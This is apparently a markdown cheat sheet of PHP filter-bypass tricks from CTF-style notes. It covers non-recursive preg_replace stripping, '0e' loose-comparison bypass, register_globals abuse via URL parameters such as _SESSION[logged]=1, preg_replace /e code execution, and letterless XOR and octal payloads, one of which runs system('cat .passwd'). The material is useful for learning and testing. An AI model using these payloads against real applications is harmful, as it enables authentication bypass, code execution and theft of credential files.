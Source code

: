 # PHP Filter Bypass

## preg_replace
`preg_replace('search','replacewith','stringtovalidate')`
```php
$variable = preg_replace('foxchallenge','','foxchallfoxchallengeenge')
```
Note that the string in the middle is checked and deleted but as it is wrapped with another foxchallenge, the second isnt checked

## Double comparison
In php, when comparing with `==`, types are converted to integers before comparison. And string which start with `0e` are interpreted as `0`

## Register globals turned ON
Patched in php 5.3.0  

A variable that is not set before use can be set from super globals such as `$_REQUEST`,`$_POST`,`$_COOKIES` or `$_GET`, `$_SESSION`, `$_SERVER`. The fact is that if the variable is not set where the code looks for, it look in global variables.

Example : 
```php
if (authenticated_user()) {
	$authorized = true;
}
// Insecure using of $authorized because no default value has been set
if ($authorized) {
	include "/highly/sensitive/data.php";
}
```

Global variables can be modify thru request params : 
```
_METHOD[param]=value
```
Example with logged param :
```
http://example.com/index.php?_SESSION[logged]=1
```

## preg_replace()

preg_replace is vulnerable to rce : 

```php
preg_replace("Replace that", "with that", "from that")
preg_replace("/a/e",phpinfo(),"whatever")
preg_replace("/a/e",file_get_contents("./index.php"),"whatever")
```


## No letters

### Using XOR technics
Concatenate letter by letter
```php
('('^'[') . ('$'^']') ...
```

### Using octal
```php
("\160\150\160\151\156\146\157")() // ("phpinfo")() = phpinfo()
("\163\171\163\164\145\155")("\143\141\164\40\56\160\141\163\163\167\144") // ("system")("cat .passwd")
```